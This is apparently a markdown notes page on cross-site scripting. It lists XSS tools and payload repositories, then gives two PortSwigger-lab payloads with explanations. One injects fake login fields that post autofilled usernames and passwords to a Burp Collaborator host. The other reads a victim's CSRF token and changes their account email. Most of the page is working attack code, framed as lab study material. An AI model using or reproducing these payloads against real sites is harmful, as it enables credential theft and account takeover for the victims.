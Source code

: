 ### Tools:

#### XSStrike
link:https://github.com/s0md3v/XSStrike
#### dalfox
link:https://github.com/hahwul/dalfox
#### ezXSS
link:https://github.com/ssl/ezXSS

### Payloads:

https://github.com/Proviesec/xss-payload-list
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

### Portswigger payloads
*******<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">*****

The above payloads is used to steal victim username and password using burp collaborator.When the request is send and victim visits the vulnerable functionality
the it will autofill the username and password.It fetch the request when length is true which means password field is filled that's why length will be true and
request is triggered..Mode no-cors mean if the domain is changed (burb collaborator) still it didn't block the request. As a response it give username and 
password separeted by colon.


****<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>****

The above script will be used to change the email address of victim.The script first send a request and wait for the response,from the response it will take the 
csrf token,use it send request to change the email address with test@test.com.
